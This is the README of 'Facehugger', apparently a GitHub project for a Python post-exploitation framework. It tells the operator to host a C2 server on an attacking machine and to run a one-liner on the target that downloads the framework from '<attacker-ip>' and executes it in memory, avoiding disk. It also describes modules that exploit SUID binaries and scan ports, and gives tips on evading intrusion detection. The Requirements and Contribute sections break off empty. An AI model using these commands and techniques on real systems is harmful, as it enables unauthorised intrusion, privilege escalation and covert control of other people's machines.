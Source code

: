 # Facehugger

![free-hugs](https://www.clipartmax.com/png/full/426-4262327_free-hugs-clip-art.png)

A versatile and modular post-exploitation framework. Enumerate, Escalate and pivot while keeping your scripts in ram and off disk.

## Usage

To use Facehugger you fist need to configure your attacking machine to act as a C2 server from which Facehugger can load resources. 
Facehugger works over http (soon to be https) and hence there are a number of ways of setting up the host however the method I recommend is to use the python simple http server module. 
To set this up on your attacking machine if you have sudo rights run:
```
git clone https://github.com/CellEight/Facehugger.git
cd Facehugger
sudo python3 -m http.server 80
```

If you lack sudo rights (for example in a situation in which you are pivoting from a machine on which you only have access to a unprivileged account) simply change port 80 to a port above 1000 (eg. 8080) as this will remove the need for sudo rights although it may be more suspicious to any IDS on the network.

Facehugger currently doesn't implement any kind of readline functionality to allow for command replay so I reccomend running it with rlwrap if it's installed on the target system.
If you have already moved the script onto the target system then run
```
python3 facehugger.py
rlwrap python3 facehugger.py # or with rlwrap
```
If you wish to run Facehugger 100% in memory and what I recommend is to use python to get facehugger.py over the network and execute it directly without touching metal. 
To do this simply run the following on the target machine:
```
python3 -c "import requests; exec(requests.get('http://<attacker-ip>/facehugger.py').text)"
```

## Modules

Beyond the base functionality of Facehugger a couple of modules have been implemented that allow for more aggressive post exploitation.
The currently working modules are

* suidenum - This module allows for automated enumeration and exploitation of common suid vulnerablities by scraping GTFO bins
* portscan - A simple port scan with option banner grabbing capabilties

With many more on the way.
All modules are download from the C2 server into RAM and then directly executed with `exec()`.
To download a module form the C2 server from the Facehugger command line just use the `load` command as follows
```
facehugger~# load <name-of-module>
```

To make a module active or change the currently active use the `set module` command

```
facehugger~# set module <name-of-module>
```

To see details of the functionality and usage of the module just use the `usage` command after making it active

```
facehugger~module# usage
```
To list it configurable attributes use `list attr`:
```
facehugger~module# list attr
```
To set the value of a particular attribute use `set attr`:
```
facehugger~module#set attr <attribute> <value>
```
And once you have set all the necessary attributes of a module you can use the `run` command to execute it:
```
facehugger~module# run
```
## Requirements


## Contribute

Any kind of pull requests are welcome from spelling corrections to entire new modules.
To write your own module just create a child class of 'Module' that implements the following methods:

And has an following fields:
